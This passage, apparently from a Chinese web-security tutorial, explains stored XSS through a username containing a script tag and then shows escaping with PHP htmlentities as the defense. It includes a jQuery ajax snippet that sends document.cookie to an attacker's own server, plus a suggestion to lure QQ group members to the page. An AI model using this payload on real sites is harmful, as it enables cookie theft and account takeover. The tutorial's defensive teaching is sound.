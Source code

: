 ![web_user](https://segmentfault.com/img/bVB9cO)

但是，如果你的用户名，起名称的时候，带上script标签呢？我们知道，浏览器遇到html中的script标签的时候，会解析并执行标签中的js脚本代码，那么如果你的用户名称里面含有script标签的话，就可以执行其中的代码了。<br>

<pre>
&lt;?php
    $username=&quot;&lt;script&gt;alert(&#x27;侯医生&#x27;);&lt;/script&gt;&quot;;
?&gt;
</pre>

![web_xss](https://segmentfault.com/img/bVB9or)

如果你将自己的用户名设定为这种执行脚本的方式，再让别人去访问你的连接的话，就可以达到在他人web环境中，执行自己脚本的效果了。我们还可以使用ajax，将其他用户在当前域名下的cookie获取并发送到自己的服务器上。这样就可以获取他人信息了。比如，刚刚咱们使用的不是alert而是，如下的代码：

<pre>
$.ajax({
    url: &#x27;自己的服务器&#x27;,
    dataType: &#x27;jsonp&#x27;,
    data: {&#x27;盗取的用户cookie&#x27;: document.cookie}
});
</pre>

如果再在各个QQ群中，散播自己的空间，引诱别人来访问。就可以拿到用户在这个域名下的cookie或者其他隐私了。


## 如何防范 XSS 攻击 ##
目前来讲，最简单的办法防治办法，还是将前端输出数据都进行转义最为稳妥。比如，按照刚刚我们那个例子来说，其本质是，浏览器遇到 script 标签的话，则会执行其中的脚本。但是如果我们将 script 标签进行转义，则浏览器便不会认为它是一个标签，但是显示的时候，还是会按照正常的方式去显示，代码如下：

<pre>
&lt;?php
  $username=&quot;&lt;script&gt;alert(&#x27;侯医生&#x27;);&lt;/script&gt;&quot;;
?&gt;

&lt;!DOCTYPE html&gt;
&lt;html lang=&quot;en&quot;&gt;
&lt;head&gt;
	&lt;title&gt;Document&lt;/title&gt;
&lt;/head&gt;
&lt;body&gt;
&lt;div&gt;
	&lt;!--我们将输出的后端变量，转义之后再输出，则可以避免被注入代码--&gt;
  用户名：&lt;?php echo htmlentities($username);?&gt;
  &lt;/div&gt;
  &lt;div&gt;
    第一条状态：侯医生的状态1
  &lt;/div&gt;
  &lt;div&gt;
    第二条状态：侯医生的状态2
  &lt;/div&gt;
  &lt;div&gt;
    第三条状态：侯医生的状态3
  &lt;/div&gt;
&lt;/body&gt;
&lt;/html&gt;
</pre>
